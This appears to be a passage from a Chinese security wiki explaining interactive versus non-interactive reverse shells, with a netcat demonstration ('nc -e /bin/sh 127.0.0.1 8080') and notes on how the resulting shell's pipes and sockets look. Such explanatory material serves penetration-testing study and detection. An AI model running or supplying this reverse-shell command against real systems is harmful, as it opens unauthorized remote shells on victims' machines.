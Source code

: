 * 非交互式反弹shell 与交互式反弹shell的本质区别是非交互式反弹shell没有上 上下文。 
* 连通类和间断类的区别在于连通类的网络和命令之间的传输通道是实时连通的。

判断是否是交互式，有个简单的判断方式：在反弹shell连接后，输入 history 命令，看是否有输出，如果没有输出，说明是非 交互式的。 

连通类非交互式反弹shell，区别于间断类，网络连接与命令输入输出构成一条连续的通道，其基本结构如下图所示：

![](../../.gitbook/assets/image%20%28441%29.png)

这种反弹 shell 在渗透测试中比较常见，举两个典型示例：

1、NC反弹

在控制端运行 `nc -lvp 8080` , 在被控端运行 `nc -e /bin/sh 127.0.0.1 8080` , 在控制端运行 history 是没有任何反应的。

![](../../.gitbook/assets/image%20%28458%29.png)

观察一下被控端反弹的 bash ，它的输入输出都连接着管道，同时其他句柄绑定有网络连接。

![](../../.gitbook/assets/image%20%28457%29.png)
